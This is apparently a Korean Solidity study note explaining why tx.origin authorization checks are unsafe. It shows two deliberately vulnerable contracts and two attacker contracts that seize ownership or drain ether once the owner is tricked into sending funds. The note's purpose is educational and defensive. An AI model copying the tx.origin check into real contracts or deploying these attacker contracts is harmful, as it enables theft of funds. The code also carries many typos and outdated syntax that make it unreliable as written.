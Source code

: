# tx.origin과 msg.sender

tx.origin :  트랜잭션을 처음 시작한 계정(항상 EOA)
msg.sender : 트랜잭션을 처음 시작한 계정 or 중간에 컨트랙트를 경유할 경우 컨트랙트 계정으로 바뀔 수 있음
> ## tx.origin == msg.sender (x)
tx.origin과 msg.sender가 동일하다고 생각하고 tx.origin을 권한 검사에 사용하는것은 위험함

예시 1)
```solidity
//SPDX-License-Identifier:MIT
pragma solidity ^0.8.0;

contract MyContract {
    
    address owner;

    constructor() {
        owner = msg.sender;
    }

    modifier onlyOwner {
        require(owner == tx.origin, "Caller is not the onwner");
        _;
    }

    function transfer(adress _addr) {
        _addr.tansfer(this.balance);
    }

    function transferOwnership(address newOwner) public onlyOwner {
        owner = newOwner;
    }
}
```
transferOwnership() 함수를 실핼할 수 있는 것은 onlyOwner를 통과한 계정으로 제한됨. 그런데 owner를 tx.origin과 비교하고 있음.   
공격자는 다음과 같은 컨트랙트를 작성할 수 있음
공격자 컨트랙트 )
```solidity
//SPDX-License-Identifier:MIT
pragma solidity ^0.8.0;

contract Attacker {
    address badUser;
    MyContract target;

    constructor(address _addr) {
        badUser = msg.sender;
        target = MyContract(_addr);
    }

    receive() external payable {
        target.transferOwnership(badUser);
    }
}
```
공격자가 MyContract의 배포 계정이 Attacker 컨트랙트에게 이더를 전송하도록 유도하여 성공한다면 receice() 함수가 받으면서 transferOwnership()이 실행될 것이고, tx.origin은 배포 계정이 됨. 따라서 modifier onluOwner를 무사히 통과하여 파라미터로 전달된 badUser계정이 owner가 됨.
![txorigin](/Solidity/Solidity-Docs/img/txorigin.png)

예시 2)
```solidity
contract Phishable {
    address owner;

    constructor (address _owner) {
        owner = _owner;
    }

    function () public payable {} // collect ether

    function withdrawAll(address _recipient) public {
        requir(tx.origin == owner); // 소유자 인증 후 수금자에게 모든 ether를 전송
        _recipient.transfer(this.balance);
    }
}
```

공격자 컨트랙트 )
```solidity
import "Phishable.sol"

contract AttackContract {
    Phishable phisableContract;
    address attacker; //송금 받을 공격자 계정

    constructor (Phishable _phishableContract, address _attackerAddress) {
        phisableContract = _phishableContract;
        attacker = _attackerAddress;
    }

    function () payble {
        phisableContract.withdrawAll(attacker);
    }
}
```
공격자는 Phishable 컨트랙트를 자신의 주소로 위장하여 owner를 변경하고 ether를 탈취할 수 있음


